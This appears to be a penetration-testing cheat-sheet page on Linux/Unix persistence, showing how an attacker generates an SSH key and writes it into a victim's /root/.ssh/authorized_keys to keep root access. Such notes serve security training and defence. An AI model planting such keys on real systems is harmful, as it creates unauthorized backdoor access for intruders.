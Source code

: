 # Linux/Unix Persistence

## Persistence

Sometimes we may need to maintain access to our target, there are a lot of methods that we can use to accomplish this task.

### SSH

```text
kali@kali:~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/kali/.ssh/id_rsa.
Your public key has been saved in /home/kali/.ssh/id_rsa.pub.
...<snip>...
kali@kali:~$ cat:~/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQD... kali@kali
```

With our ssh key generated, we can create the authorized\_keys file on the host to accept our public key.

```text
root@victim: mkdir /root/.ssh
root@victim: echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQD... kali@kali" > /root/.ssh/authorized_keys
```

Now on Kali, we can use the ssh client to connect to the victim directly.

```text
kali@kali:~$ ssh root@10.10.10.10
Welcome to Ubuntu 16.04 LTS (GNU/Linux 4.4.0-21-generic x86_64)
...<snip>...
root@username:~#
```

